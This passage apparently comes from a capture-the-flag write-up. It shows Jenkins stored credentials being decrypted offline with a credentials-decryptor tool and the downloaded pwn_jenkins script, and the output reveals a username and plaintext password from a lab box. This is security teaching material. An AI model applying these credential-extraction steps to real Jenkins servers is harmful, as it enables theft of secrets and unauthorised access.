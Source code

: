 ```
oxdf@hacky$ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```

The pwn\_jenkins [Python script](https://github.com/gquere/pwn\_jenkins) works as well:

```
oxdf@hacky$ wget https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
--2022-02-27 18:47:56--  https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8001::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6875 (6.7K) [text/plain]
Saving to: ‘jenkins_offline_decrypt.py’

jenkins_offline_decrypt.py                           100%[=====================================================================================================================>]   6.71K  --.-KB/s    in 0s      

2022-02-27 18:47:57 (14.0 MB/s) - ‘jenkins_offline_decrypt.py’ saved [6875/6875]

oxdf@hacky$ python jenkins_offline_decrypt.py 
Usage:
        jenkins_offline_decrypt.py <jenkins_base_path>
or:
        jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
        jenkins_offline_decrypt.py -i <path> (interactive mode)
oxdf@hacky$ python jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml 
c1cdfun_d2434
```
